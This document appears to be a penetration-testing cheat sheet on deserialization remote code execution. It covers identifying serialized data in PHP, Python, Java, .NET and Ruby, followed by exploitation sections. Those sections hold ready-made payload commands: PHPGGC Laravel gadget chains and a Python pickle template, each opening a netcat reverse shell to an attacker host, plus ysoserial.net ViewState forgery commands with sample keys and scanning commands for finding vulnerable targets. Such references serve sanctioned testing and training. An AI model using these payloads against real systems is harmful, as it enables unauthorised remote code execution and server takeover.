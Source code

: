 # Serialization RCE

## Identifying the use of Serialization

## White-Box

| Function             | Language                     |
|----------------------|------------------------------|
| `unserialize()`      | PHP                          |
| `pickle.loads()`     | Python (Pickle)              |
| `jsonpickle.loads()` | Python (JSONPickle)          |
| `yaml.load()`        | Python (PyYAML, ruamel.yaml) |
| `readObject()`       | Java                         |
| `Deserialize()`      | C#/.NET                      |
| `Marshal.load()`     | Ruby                         |


## Black Box

| Bytes                                                                      | Language                           |
|----------------------------------------------------------------------------|------------------------------------|
| `a:4:{i:0;s:4:"Test";i:1;s:4:"Data";i:2;a:1:{i:0;i:4;}i:3;s:7:"ACADEMY";}` | PHP                                |
| `(lp0\nS'Test'\np1\naS'Data'\np2\na(lp3\nI4\naaS'ACADEMY'\np4\na.`         | Python 2.x (Pickle Protocol 0)     |
| `80 01` (Hex)                                                              | Python 2.x (Pickle Protocol 1)     |
| `80 02` (Hex)                                                              | Python 2.3+ (Pickle Protocol 2)    |
| `80 03` (Hex)                                                              | Python 3.8+ (Pickle Protocol 4)    |
| `80 04 95` (Hex)                                                           | Python 3.x (Pickle Protocol 5)     |
| `["Test", "Data", [4], "ACADEMY"]`                                         | Python 2.7 / 3.6+ (JSONPickle      |
| `- Test\n- Data\n- - 4\n- ACADEMY\n`                                       | Python 3.6+ (PyYAML / ruamel.yaml) |
| `AC ED 00 05 73 72` (Hex), `rO0ABXNy` (Base64)                             | Java                               |
| `00 01 00 00 00 ff ff ff ff` (Hex), `AAEAAAD/////` (Base64)                | C#/.NET                            |
| `04 08` (Hex)                                                              | Ruby                               |

# Exploiting PHP Deserialization

## PHPGGC

```bash
# List out available gadget chains for a specific framework:
phpggc -l Laravel

# Generate an RCE payload using a specific gadget chain:
phpggc Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -b

# Generate a payload to exploit a PHAR deserialization vulnerability:
phpggc -p phar Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -o exploit.phar
```

# Exploiting Python Deserialization

```python
# Template for Pickle RCE exploit:

import pickle
import base64
import os

class RCE:
	def __reduce__(self):
		return os.system, ("nc -nv 1.2.3.4 5555 -e /bin/bash",)

print(base64.b64encode(pickle.dumps(RCE())).decode())
```
# Exploiting __VIEWSTATE parameter without knowing its secrets

## Sensitive files: web.config

## Tools: https://github.com/pwntester/ysoserial.net https://github.com/blacklanternsecurity/badsecrets

## Resources: https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter

### ViewState information can be characterized by the following properties or their combinations:

## 1) Base64:

 - This format is utilized when both EnableViewStateMac and ViewStateEncryptionMode attributes are set to false.

## 2) Base64 + MAC (Message Authentication Code) Enabled:

 - Activation of MAC is achieved by setting the EnableViewStateMac attribute to true. This provides integrity verification for ViewState data.

## 3) Base64 + Encrypted:

 - Encryption is applied when the ViewStateEncryptionMode attribute is set to true, ensuring the confidentiality of ViewState data.

### Payload generation commands:

	ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "REVERSE_SHELL_PAYLOAD_HERE" (Use this if ViewState is NOT MAC protected)

	ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "REVERSE_SHELL_PAYLOAD" --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" --apppath="/" --path="/vulnerable/vuln.aspx" (Use this if you have found the key)

	--generator = {__VIWESTATEGENERATOR parameter value} (Append this to previous command if you don't have the key so that you can generate it)

	bbot -f subdomain-enum -m badsecrets -t evil.corp (Check for vulnerable viewstates at scale)

	python examples/blacklist3r.py --url http://vulnerablesite/vulnerablepage.aspx (Directly target the URL and try to carve the viewstate out of the HTML)

	ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "REVERSE_SHELL_PAYLOAD" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" (Generate a payload once you have found valid keys)
